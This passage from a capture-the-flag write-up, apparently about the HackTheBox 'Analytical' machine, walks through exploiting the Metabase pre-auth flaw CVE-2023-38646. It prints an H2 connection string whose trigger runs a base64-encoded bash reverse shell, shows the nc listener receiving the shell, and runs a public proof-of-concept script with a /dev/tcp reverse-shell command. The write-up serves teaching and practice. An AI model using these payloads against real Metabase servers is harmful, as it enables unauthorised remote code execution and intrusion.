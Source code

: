 So my `db` string will be:

```
zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK}|{base64,-d}|{bash,-i}')\n$$--=x

```

#### Send

With `nc` listening on 443, I’ll find a request to `data.analytics.htb` in Burp, and send it to Repeater. It doesn’t matter what it is, as I’m going to completely change it (I just want the target to be set correctly). In the Request pane, I’ll update the `Host` header from `localhost` to `data.analytical.htb`, the `token`, and the `db` string:

![image-20240313195636750](https://0xdf.gitlab.io/img/image-20240313195636750.png)

When I send, it hangs for a second, and then at `nc` there’s a shell:

```
oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.233 46282
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
b7ed0bb2dd1e:/$

```

### Exploit Script

#### Script Analysis

I mentioned above there were many POC scripts available on GitHub. For example, I can grab [this one](https://github.com/Pyr0sec/CVE-2023-38646/blob/main/exploit.py) and save it as a file on my VM.

Taking a quick look at the script, it’s doing the same thing I did above. It takes the URL, token, and the command to run. I don’t know why it doesn’t get the token for me (it would be just one more request and parsing JSON, a couple lines of Python). The script takes the input URL and builds the `validate` endpoint, and the request:

[![image-20240313200342725](https://0xdf.gitlab.io/img/image-20240313200342725.png)_Click for full size image_](https://0xdf.gitlab.io/img/image-20240313200342725.png)

The input command is base64 encoded, and then used in the request in the same brace-expanded format:

![image-20240313200422498](https://0xdf.gitlab.io/img/image-20240313200422498.png)

#### Running

Running this is very simple:

```
oxdf@hacky$ python cve-2023-38646.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
Payload sent!

NOTE: Make sure to open a listener on the specified port and address if you entered a reverse shell command.

RESPONSE:
{"message":"Error creating or initializing trigger \"PWNSHELL\" object, class \"..source..\", cause: \"org.h2.message.DbException: Syntax error in SQL statement \"\"//javascript\\\\000ajava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYx}|{base64,-d}|{bash,-i}')\\\\000a\"\" [42000-212]\"; see root cause for details; SQL statement:\nSET TRACE_LEVEL_SYSTEM_OUT 1 [90043-212]"}
```
